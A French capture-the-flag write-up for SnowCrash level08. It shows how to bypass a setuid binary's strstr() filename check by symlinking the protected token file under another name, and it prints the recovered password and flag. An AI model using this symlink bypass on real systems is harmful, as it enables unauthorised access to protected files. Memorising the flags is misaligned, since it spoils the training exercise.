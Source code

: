 il y a un fichier "token" que l'on ne peut pas lire et un exécutable

```
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

on tente d'exécuter le binaire

```
level08@SnowCrash:~$ ./level08 
./level08 [file to read]
```

avec le fichier "token" en paramètre

```
level08@SnowCrash:~$ ./level08 token 
You may not access 'token'
```

avec un autre fichier

```
level08@SnowCrash:~$ ./level08 .bashrc
level08: Unable to open .bashrc: Permission denied
```

on check avec la commande `ltrace` ce qui se passe dans le binaire

```
level08@SnowCrash:~$ ltrace /home/user/level08/level08 token
__libc_start_main(0x8048554, 2, 0xbffff6f4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                                                                  = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                                                              = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

on voit que l'exécutable utilise la fonction `strstr()` pour comparer le nom du fichier à lire avec la string "`token`"

pour pouvoir lire le fichier token il faut alors le renommer, on peut faire cela en créant un lien symbolique

```
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/givemethisflag
level08@SnowCrash:~$ ./level08 /tmp/givemethisflag
quif5eloekouj29ke0vouxean
```
```
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```